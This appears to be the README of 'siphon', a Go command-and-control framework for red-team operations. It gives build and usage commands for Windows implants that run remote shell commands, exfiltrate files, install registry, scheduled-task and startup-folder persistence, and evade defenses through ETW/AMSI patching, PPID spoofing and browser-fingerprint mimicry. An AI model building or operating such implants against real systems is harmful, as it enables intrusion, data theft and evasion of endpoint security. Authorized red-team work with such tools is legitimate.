

<div align="center">



A lightweight command-and-control framework for red team operations. Built in Go with HTTPS beacon transport, per-session forward secrecy via ECDH P-256, and AES-256-GCM authenticated encryption.

> **For authorized red team engagements only. Unauthorized use is prohibited.**

</div>

---

## Table of Contents

- [Highlights](#highlights)
- [Quick Start](#quick-start)
- [Usage](#usage)
- [Command Reference](#command-reference)
- [Architecture](#architecture)
- [Tech Stack](#tech-stack)
- [Features](#features)
- [Security Design](#security-design)
- [Development](#development)
- [Troubleshooting](#troubleshooting)

---

## Highlights

<table>
<tr>
<td width="50%">

### Forward Secrecy
Ephemeral ECDH P-256 key exchange per session. Server public key embedded at build time — no config files on disk.

</td>
<td width="50%">

### Encrypted Transport
AES-256-GCM authenticated encryption with HMAC-SHA256 message authentication covering all envelope fields.

</td>
</tr>
<tr>
<td>

### TLS Fingerprinting
uTLS with Chrome JA3 fingerprint (HelloChrome_Auto). Cookie-based beacon transport blends with normal HTTPS traffic.

</td>
<td>

### Runtime Evasion
ETW and AMSI patching on startup. PPID spoofing under explorer.exe. CREATE_NO_WINDOW for stealth process creation.

</td>
</tr>
<tr>
<td>

### Persistence
Registry run keys, scheduled tasks, and startup folder. All methods include cleanup via unpersist commands.

</td>
<td>

### Encrypted Loot
Exfiltrated files encrypted at rest with AES-256-GCM. Path traversal protection on all implant-controlled identifiers.

</td>
</tr>
<tr>
<td>

### Resource Limits
Max 1000 implants, 1000 results per implant, 512 KB upload chunks, 24h max sleep, 64 KB cookie / 10 MB submit body limits.

</td>
<td>

### Operator Console
Interactive CLI with Catppuccin Mocha palette. Prefix-match implant selection, task queuing, and live result display.

</td>
</tr>
</table>

---

## Quick Start

### Prerequisites

| Dependency | Version |
|------------|---------|
| Go | 1.24.9+ |
| make | any |

### Build

```sh
# 1. Generate ECDH keypair and self-signed TLS certificate
make setup

# 2. Build the server (stripped Linux binary)
make server

# 3. Build the implant (Windows cross-compiled)
make implant SERVER_PK=<hex> C2_HOST=https://your-c2:443 SLEEP_SEC=10

# 4. Clean build artifacts
make clean
```

---

## Usage

**Start the server**

```sh
./build/siphon-server -listen :443 -cert server/certs/server.crt -key server/certs/server.key
```

**Build and deploy an implant**

```sh
# Windows implant
make implant SERVER_PK=<hex> C2_HOST=https://10.0.0.5:443 SLEEP_SEC=10 AUTH_TOKEN=secret

# Linux implant (for testing)
make implant-linux SERVER_PK=<hex>
```

**Interact with an implant**

```sh
siphon> implants                       # list checked-in implants
siphon> interact abc123                # select an implant
siphon(abc123)> cmd whoami             # run a command
siphon(abc123)> upload C:\secrets.db   # exfiltrate a file
siphon(abc123)> sleep 30               # change beacon interval
siphon(abc123)> persist registry       # install persistence
siphon(abc123)> selfdestruct           # remove the implant
```

---

## Command Reference

### Server Flags

| Flag | Default | Description |
|------|---------|-------------|
| `-listen` | `:443` | Listen address |
| `-cert` | `server/certs/server.crt` | TLS certificate path |
| `-key` | `server/certs/server.key` | TLS private key path |
| `-serverkey` | `server/certs/server.pem` | ECDH server key path |
| `-beacon-path` | `/api/news` | Beacon endpoint URL path |
| `-submit-path` | `/api/submit` | Submit endpoint URL path |
| `-auth` | (none) | Pre-shared HMAC auth token |
| `-genkey` | — | Generate ECDH keypair and exit |
| `-gencert` | — | Generate self-signed TLS cert and exit |

### Build Variables

| Variable | Required | Default | Description |
|----------|----------|---------|-------------|
| `SERVER_PK` | Yes | — | Server ECDH public key (hex) |
| `C2_HOST` | No | `https://127.0.0.1:443` | C2 server URL |
| `SLEEP_SEC` | No | `5` | Beacon interval in seconds |
| `AUTH_TOKEN` | No | — | Pre-shared HMAC authentication token |
| `DEBUG` | No | — | Set to `true` to enable implant logging |

### Operator Commands

| Command | Description |
|---------|-------------|
| `implants` | List all checked-in implants |
| `interact <id>` | Select an implant to interact with |
| `cmd <command>` | Execute a shell command on the active implant |
| `upload <remote_path>` | Exfiltrate a file from the implant to the server |
| `download <local_file> <remote_path>` | Push a file from the server to the implant |
| `sleep <seconds>` | Adjust the implant beacon interval |
| `persist <method> [name]` | Install persistence (registry, schtask, startup) |
| `unpersist <method> [name]` | Remove persistence |
| `selfdestruct` | Rename and delete the implant binary |
| `exit-implant` | Instruct the implant process to exit |
| `back` | Return to the main menu |
| `tasks` | Show queued tasks for the active implant |
| `results` | Show task results for the active implant |
| `help` | Print command reference |
| `exit` | Exit the operator console |

---

## Architecture

### Project Structure

```
shared/types.go              Protocol types: Beacon, Task, TaskResult, Envelope

implant/
  main.go                    Entry point with exponential backoff and jitter
  config.go                  Build-time config (c2Host, sleepSec, serverPK via ldflags)
  comms.go                   ECDH key exchange and AES-256-GCM encryption
  transport.go               HTTPS client: CheckIn, SendResult, InitImplant
  tasks.go                   Task dispatcher: cmd, upload, download, sleep, persist,
                             selfdestruct, exit
  evasion_windows.go         PPID spoofing under explorer.exe, CREATE_NO_WINDOW
  evasion_other.go           Non-Windows fallbacks (/bin/sh execution)
  patches_windows.go         ETW and AMSI patching (runtime evasion)
  patches_other.go           ETW/AMSI stubs for non-Windows builds
  persist_windows.go         Persistence: registry run key, scheduled task, startup folder
  persist_other.go           Non-Windows stubs

server/
  crypto.go                  ECDH key exchange and AES-256-GCM; keypair management
  handlers.go                HTTP handlers for beacon and submit; implant tracking
  cli.go                     Interactive operator console (Catppuccin Mocha palette)
  cmd/main.go                Server entry point; TLS certificate generation
  server_test.go             Integration tests: ECDH, AES-GCM, Envelope, full HTTP flow

Makefile                     Build system: setup, server, implant, implant-linux, clean
```

### Data Flow

```
Implant  ──  HTTPS GET (beacon)  ──▶  Server  ──▶  Task Queue
Implant  ◀──  Encrypted Task  ◀────  Server
Implant  ──  HTTPS POST (result) ──▶  Server  ──▶  Loot Storage
```

---

## Tech Stack

| Layer | Technology |
|-------|------------|
| Language | Go 1.24.9 |
| Crypto | ECDH P-256, AES-256-GCM, HMAC-SHA256 |
| TLS | uTLS (HelloChrome_Auto) with self-signed certs |
| Transport | HTTPS with cookie-based beacon, JSON envelopes |
| Evasion | ETW/AMSI patching, PPID spoofing, CREATE_NO_WINDOW |
| Theming | Catppuccin Mocha (operator CLI) |
| Testing | go test with race detector |
| Linting | go vet, staticcheck |
| Build | Make with cross-compilation (CGO_ENABLED=0) |

---

## Features

| Feature | Description |
|---------|-------------|
| Command Execution | Shell commands via `cmd.exe` (Windows) or `/bin/sh` with CREATE_NO_WINDOW and PPID spoofing |
| File Upload | Exfiltrate files from target to `loot/` directory, 512 KB chunks, encrypted at rest |
| File Download | Push files to target in chunks, created with `0600` permissions |
| Runtime Evasion | Patches `ntdll!EtwEventWrite` and `amsi!AmsiScanBuffer` in memory on startup |
| Registry Persistence | `HKCU\Software\Microsoft\Windows\CurrentVersion\Run` key with cleanup |
| Scheduled Task | Persistence via `schtasks` with PPID spoofing and cleanup |
| Startup Folder | Shortcut-based persistence with cleanup |
| Self-Destruct | Renames binary and spawns detached cleanup process to delete it |
| Beacon Resilience | Exponential backoff with cryptographic jitter (`crypto/rand`), 0-50% of base interval |
| Sleep Control | Adjustable beacon interval from operator console, capped at 24h |

---

## Security Design

| Property | Implementation |
|----------|---------------|
| Forward secrecy | Ephemeral ECDH P-256 key exchange per session |
| Payload confidentiality | AES-256-GCM authenticated encryption |
| Key distribution | Server public key embedded at build time via ldflags |
| HMAC authentication | HMAC-SHA256 pre-shared token covering ID, PubKey, Nonce, Ciphertext |
| Loot encryption | Exfiltrated files encrypted at rest with AES-256-GCM |
| Path traversal protection | `filepath.Base()` sanitization on implant-controlled IDs |
| Memory safety | Deep-copied session keys; ECDH shared secrets zeroed after use |
| TLS fingerprinting | uTLS with Chrome JA3 fingerprint (HelloChrome_Auto) |
| Resource limits | Max 1000 implants, 1000 results per implant, 24h max sleep |
| Binary hardening | Stripped with `-s -w -trimpath`; no debug symbols or paths |
| Traffic blending | uTLS Chrome fingerprint, cookie-based beacon, standard HTTPS endpoints |
| Input limits | 64 KB cookie, 1 MB response, 10 MB submit body |
| File permissions | `0600` for all sensitive outputs |
| Concurrency safety | `sync.RWMutex` and atomic operations throughout |

---

## Development

### Testing

```sh
# Run all tests with race detector
go test ./... -v -race
```

The test suite covers ECDH key exchange, AES-GCM encryption/decryption, Envelope serialization, and the full HTTP beacon/submit flow.

### Linting

```sh
go vet ./...
staticcheck ./...
```

### Building

```sh
# Server (Linux)
make server

# Implant (Windows, cross-compiled)
make implant SERVER_PK=<hex> C2_HOST=https://your-c2:443

# Implant (Linux, for testing)
make implant-linux SERVER_PK=<hex>
```

---

## Troubleshooting

| Problem | Solution |
|---------|----------|
| Server won't start | Check cert/key paths: `-cert` and `-key` flags |
| Implant won't connect | Verify `C2_HOST` matches server address and port |
| HMAC verification fails | Ensure `AUTH_TOKEN` matches between server `-auth` and implant build |
| HTTP/2 mismatch | Server disables HTTP/2 automatically via `TLSNextProto` |
| Startup persist fails | Directory is auto-created via `MkdirAll` |
| schtask Access Denied | Scheduled tasks with `/rl HIGHEST` require admin |

---

<div align="center">

**Quiet extraction. Encrypted transport. Zero disk footprint.**

</div>
